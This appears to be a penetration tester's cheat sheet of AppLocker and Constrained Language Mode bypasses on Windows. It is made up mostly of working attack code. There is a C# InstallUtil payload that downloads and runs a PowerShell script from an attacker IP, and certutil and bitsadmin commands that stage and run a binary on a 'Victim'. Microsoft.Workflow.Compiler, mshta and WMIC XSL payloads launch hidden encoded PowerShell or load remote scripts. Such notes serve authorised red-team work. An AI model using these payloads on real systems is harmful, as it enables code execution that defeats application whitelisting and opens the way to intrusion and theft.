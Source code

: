 # AppLocker Bypass

* [https://github.com/api0cradle/UltimateAppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList)
* [https://www.hackplayers.com/2018/12/english-cor-profilers-bypassing-windows.html](https://www.hackplayers.com/2018/12/english-cor-profilers-bypassing-windows.html)
* [https://0xdf.gitlab.io/2019/03/15/htb-ethereal-cor.html](https://0xdf.gitlab.io/2019/03/15/htb-ethereal-cor.html)
* [https://gitlab.com/0xdf/ctfscripts/tree/master/rev_shell_dll](https://gitlab.com/0xdf/ctfscripts/tree/master/rev_shell_dll)




## Enumeration

Check if there are any AppLocker rules:

```
PS > Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\Exe
```




## InstallUtil

A combination of AppLocker and CLM bypass:

{% code title="BypassCLM.cs" %}
```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace BypassCLM
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("These aren't the droids you're looking for.");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            string cmd = "IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/run.txt')";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
        }
    }
}
```
{% endcode %}

{% hint style="info" %}
Add a reference for the `System.Management.Automation` assembly before compilation from path:
```
C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35
```
{% endhint %}

Upload and execute:

```
Attacker > certutil -encode C:\Users\snovvcrash\Bypass.exe bypass.txt
Victim > bitsadmin /transfer job1 http://10.10.13.37/bypass.txt C:\Windows\System32\spool\drivers\color\bypass.txt
Victim > certutil -decode C:\Windows\System32\spool\drivers\color\bypass.txt C:\Windows\System32\spool\drivers\color\bypass.exe && del C:\Windows\System32\spool\drivers\color\bypass.txt
Victim > C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\System32\spool\drivers\color\bypass.exe
```




## Microsoft.Workflow.Compiler.exe

```
PS > C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe info.xml payload.txt
```

{% code title="info.xml" %}
```xml
<?xml version="1.0" encoding="utf-8"?>
<CompilerInput xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Workflow.Compiler">
<files xmlns:d2p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays">
<d2p1:string>payload.txt</d2p1:string>
</files>
<parameters xmlns:d2p1="http://schemas.datacontract.org/2004/07/System.Workflow.ComponentModel.Compiler">
<assemblyNames xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<compilerOptions i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<coreAssemblyFileName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></coreAssemblyFileName>
<embeddedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<evidence xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Security.Policy" i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<generateExecutable xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</generateExecutable>
<generateInMemory xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">true</generateInMemory>
<includeDebugInformation xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</includeDebugInformation>
<linkedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<mainClass i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<outputName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></outputName>
<tempFiles i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<treatWarningsAsErrors xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</treatWarningsAsErrors>
<warningLevel xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">-1</warningLevel>
<win32Resource i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<d2p1:checkTypes>false</d2p1:checkTypes>
<d2p1:compileWithNoCode>false</d2p1:compileWithNoCode>
<d2p1:compilerOptions i:nil="true" />
<d2p1:generateCCU>false</d2p1:generateCCU>
<d2p1:languageToUse>CSharp</d2p1:languageToUse>
<d2p1:libraryPaths xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" i:nil="true" />
<d2p1:localAssembly xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Reflection" i:nil="true" />
<d2p1:mtInfo i:nil="true" />
<d2p1:userCodeCCUs xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.CodeDom" i:nil="true" />
</parameters>
</CompilerInput>
```
{% endcode %}

{% code title="payload.txt" %}
```csharp
using System;
using System.Diagnostics;
using System.Workflow.Activities;
 
public class Foo : SequentialWorkflowActivity {
      public Foo() {
          Process process = new Process();
          // Configure the process using the StartInfo properties.
          process.StartInfo.FileName = "powershell.exe";
          process.StartInfo.Arguments = "-WindowStyle Hidden -NoP -NoLogo -exec Bypass -enc <BASE64_PWSH_CMD>";
          process.StartInfo.WindowStyle = ProcessWindowStyle.Normal;
          process.Start();
          process.WaitForExit();
      }
}
```
{% endcode %}




## MSBuild

- [https://egre55.github.io/multi-stage-msbuild-applocker-bypass/](https://egre55.github.io/multi-stage-msbuild-applocker-bypass/)




## JScript and MSHTA

Full path to `.hta` file is required:

```
Cmd > mshta.exe \users\snovvcrash\cmd.hta
Cmd > mshta.exe http://10.10.13.37/cmd.hta
```

{% code title="cmd.hta" %}
```
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("cmd.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
{% endcode %}




# WMIC

```
Cmd > wmic os get /format:"evil.xsl"
Cmd > wmic process get brief /format:"http://10.10.13.37/evil.xsl"
```

{% code title="evil.xsl" %}
```
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
		<![CDATA[
			var r = new ActiveXObject("WScript.Shell");
			r.Run("powershell.exe -WindowStyle Hidden -NoP -NoLogo -exec Bypass -enc <BASE64_PWSH_CMD>");
		]]>
	</ms:script>
</stylesheet>
```
{% endcode %}

